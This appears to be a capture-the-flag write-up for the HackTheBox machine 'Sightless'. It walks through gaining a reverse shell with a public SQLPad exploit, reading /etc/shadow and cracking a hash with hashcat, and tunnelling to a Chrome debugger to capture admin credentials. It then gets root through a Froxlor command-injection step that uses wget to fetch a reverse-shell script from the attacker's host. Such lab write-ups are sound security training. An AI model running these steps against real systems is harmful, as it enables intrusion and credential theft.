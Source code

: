 ```yaml
---
title: Sightless
tags:
  - HackTheBox
  - Easy
  - SQLPad
  - Brute-Forcing
  - Tunnelling
  - Froxlor
  - Chrome-Debugging
---
```

![](Pasted%20image%2020240919153753.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- sightless.htb > sC.txt

[redacted]
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http
|_http-title: Sightless.htb
```

Let's inspect the website:

![](Pasted%20image%2020240919154637.png)

After inspecting the code, I discovered the subdomain `sqlpad.sightless.htb`:

![](Pasted%20image%2020240919154722.png)

So I added it to the hosts file and took a look to it:

![](Pasted%20image%2020240919154906.png)

## Weaponization

I searched for **"sqlpad 6.10. cve"** and found [sqlpad-rce-exploit-CVE-2022-0944](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944/tree/main)
- I also found this info in [huntr](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb), which is the PoC that uses the previous exploit
## Exploitation

> I executed the exploit like `python3 exploit.py http://sqlpad.sightless.htb 10.10.14.104 666` and got a reverse shell!

![](Pasted%20image%2020240919160328.png)

We can see that we are inside a container because of the `.dockerenv` file:

![](Pasted%20image%2020240919160812.png)

So as we are root, and after searching inside home directory didn't found anything, we can inspect the `/etc/shadow` file and try to crack michael's hash:
- Check the note [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md)

```hash
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

It seems to be SHA-512:
- `michael` is the username.
- `$6$` indicates the hashing algorithm (SHA-512).
- `mG3Cp2VPGY.FDE8u` is the salt.
- `KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/` is the hash.

We need to format the hash for Hashcat, so we will create a file containing the following:

```txt
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/
```

So let's use Hashcat to crack the hash:

```shell
hashcat -m 1800 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt

[redacted]
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
```

> So we can now ssh as `michael:insaneclownposse` and get user flag :D

![](Pasted%20image%2020240919162039.png)

## Privilege Escalation

Inspecting the `/home` directory seems to be another user called `john`, so I decided to run linpeas:

![](Pasted%20image%2020240919162619.png)

But this wasn't relevant, so I keep looking at linpeas output, and found an interesting port running something:

![](Pasted%20image%2020240919162842.png)

So I port forwarded the port 8080 to my machine:

```shell
ssh -L 8080:localhost:8080 -N michael@sightless.htb
```

The I searched for it:

![](Pasted%20image%2020240919163635.png)

I didn't know what was Froxlor, so I searched for it and found thet is a server management software. As I didn't know the passwd, I decided to take a look at this previous photo:

![](Pasted%20image%2020240919162619.png)+

Which lead me to know that Chrome was installed on the machine. I decided to start port-forwarding all left ports to debug them hoping to find some credentials.
- I found this [Blog](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) talking about *Chrome Remote Debugger Pentesting*:

1. First, port forward: `ssh -L 40235:localhost:40235 -N michael@sightless.htb`
2. Configure Network Targets in Chrome: 
	- Open Chrome Browser and input the sollowing string in URL bar: `chrome://inspect/#devices`
	- Then click `Configure` and apply the following configuration:

![](Pasted%20image%2020240919165549.png)

Go to inspect the new remote target:

![](Pasted%20image%2020240919165654.png)

![](Pasted%20image%2020240919165744.png)

Inspecting the `index.php` and the Payload option, we can see the credentials in plain text:

![](Pasted%20image%2020240919165954.png)

Credentials are: `admin:ForlorfroxAdmin`. So we log in:

![](Pasted%20image%2020240919170150.png)

I searched for **"Froxlor RCE"** and found this [Blog](https://sarperavci.com/Froxlor-Authenticated-RCE/) which lead to an authenticated RCE:
1. Get the creds
2. Set up custom PHP-FPM Restart Command:
	- Upload a reverse shell to the machine like: `wget http://10.10.14.104:8090/revshell.sh`
	- Go to `PHP >> PHP-FPM versions` and set a custom PHP-FPM restart command:

![](Pasted%20image%2020240919170939.png)

3. Restart PHP-FPM
	- Go to `System >> Settings` and click on PHP-FPM
	- Click on disable and wait a few seconds
	- Click on enable

![](Pasted%20image%2020240919171421.png)

> You must wait 5 minutes to get the reverse shell due to cron jobs (because the PHP-FPM service restarts every 5 minutes)

> After some time we get root access and the root flag :D

![](Pasted%20image%2020240919171626.png)

==Machine pwned!==